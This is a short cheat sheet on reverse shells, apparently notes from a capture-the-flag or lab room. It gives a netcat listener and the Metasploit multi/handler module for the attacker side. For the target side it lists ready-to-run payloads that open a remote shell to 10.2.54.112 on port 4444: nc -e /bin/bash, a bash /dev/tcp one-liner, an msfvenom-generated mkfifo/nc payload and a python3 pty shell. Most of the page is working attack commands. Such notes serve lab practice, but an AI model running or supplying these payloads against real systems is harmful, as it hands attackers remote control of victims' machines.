 A reverse shell, also known as a remote shell or “connect-back shell,” takes advantage of the target system’s vulnerabilities to initiate a shell session and then access the victim’s computer. The goal is to offer the attacker machine a shell instead of my machine requesting it from the target which would be much easier to evade firewalls.

# Useful Commands:

## On the Attacker machine

To start a netcat listener we use  the following command

```bash
sudo nc -lvnp <port-number>
```

or we can use the `exploit/multi/handler` module which is like socat and netcat, used to receive reverse shells, It's also the only way to interact with a meterpreter shell, and is the easiest way to handle staged payloads, use the following Metasploit command to use the module:

```msfconsole
use exploit/multi/handler
```
## On the target machine

To connect to a listener and offer it a shell we can use this nc command:

```bash
 nc -e /bin/bash ip_here port_here
```

Or we can use:

```bash
 #!/bin/bash  
 bash -i >& /dev/tcp/10.2.54.112/4444 0>&1
```

 or we can use msfvenom to generate a payload, noting that the syntax should be in this format `msfvenom -p <PAYLOAD> <OPTIONS>`, and the naming convention for the payload should be like this `<OS>/<arch>/<payload>`.:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

 This would be the generated payload after using the previous command: 

```bash
mkfifo /tmp/ttlrs; nc 10.2.54.112 4444 0</tmp/ttlrs | /bin/sh >/tmp/ttlrs 2>&1; rm /tmp/ttlrs
```

 or we can use this payload which uses python3 and is very useful and handy reverse shell:

```bash
export RHOST="10.2.54.112";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

# Extra:

**Important Note :** 
This note was taken from the network services - Telnet room:

The netcat reverse shell will not close target-side after you close it locally
so the program will be blocked (hanging).
The python3 shell is a lot smarter, and it will notice when it's disconnected
and stop the process.
After it stopped, it means the program is ready for the next command.

Big Thanks for Edu